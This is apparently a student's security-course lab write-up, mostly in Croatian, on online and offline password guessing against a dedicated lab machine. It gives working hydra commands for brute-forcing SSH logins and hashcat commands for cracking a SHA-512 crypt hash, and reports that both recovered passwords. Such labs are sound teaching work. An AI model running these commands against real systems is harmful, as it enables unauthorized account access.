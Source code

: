 # Lab 6: Online and Offline Password Guessing

## Online Password Guessing:

Potrebna nmap aplikacija (Nmap is short for Network Mapper. It is **an open-source Linux command-line tool that is used to scan IP addresses and ports in a network and to detect installed applications**.)

Ona nam skenira sve IP adrese na mreži

Dalje na svojoj dediciranoj mašini otvaramo remote shell

```python
ssh lasic_vedran@lasicvedran.local
```

![Untitled](Lab%206%20Online%20and%20Offline%20Password%20Guessing%2012f4574f348a433496eb616776298c18/Untitled.png)

Za naš Online Password Guessing napad trebamo instalirati i hydra aplikaciju (Hydra is commonly used by **penetration testers together with a set of programmes like crunch, cupp etc, which are used to generate wordlists**. Hydra is then used to test the attacks using the wordlists that these programmes created.)

Znamo da je lozinka duga 4-6 znakova i čine ju mala slova pa ima 26^4+26^5+26^6 (**321254128)** mogućnosti koje bi hydra trebala probati

```python
hydra -l lasic_vedran -x 4:6:a lasicvedran.local -V -t 4 ssh
```

Zato ćemo koristiti dictionary

```python
hydra -l doe_john -P dictionary/g3/dictionary_online.txt lasicvedran.local -V -t 4 ssh
```

![Hydra je pronašla točnu lozinku](Lab%206%20Online%20and%20Offline%20Password%20Guessing%2012f4574f348a433496eb616776298c18/Untitled%201.png)

Hydra je pronašla točnu lozinku

![Untitled](Lab%206%20Online%20and%20Offline%20Password%20Guessing%2012f4574f348a433496eb616776298c18/Untitled%202.png)

## Offline Password Guessing:

Potreban nam je hashcat alat (Hashcat is **a password cracking tool used for licit and illicit purposes**. Hashat is a particularly fast, efficient, and versatile hacking tool that assists brute-force attacks by conducting them with hash values of passwords that the tool is guessing or applying.)

![Hashirana šifra koju napadamo](Lab%206%20Online%20and%20Offline%20Password%20Guessing%2012f4574f348a433496eb616776298c18/Untitled%203.png)

Hashirana šifra koju napadamo

Sada znamo da je šifra 6 znakova malih slova:

```python
hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
```

![Untitled](Lab%206%20Online%20and%20Offline%20Password%20Guessing%2012f4574f348a433496eb616776298c18/Untitled%204.png)

Opet ćemo koristiti dictionary

```python
hashcat --force -m 1800 -a 0 password_hash.txt dictionary/g3/dictionary_offline.txt --status --status-timer 10
```

![Untitled](Lab%206%20Online%20and%20Offline%20Password%20Guessing%2012f4574f348a433496eb616776298c18/Untitled%205.png)

Uspješno smo našli lozinku john_doe-a!

![Untitled](Lab%206%20Online%20and%20Offline%20Password%20Guessing%2012f4574f348a433496eb616776298c18/Untitled%206.png)
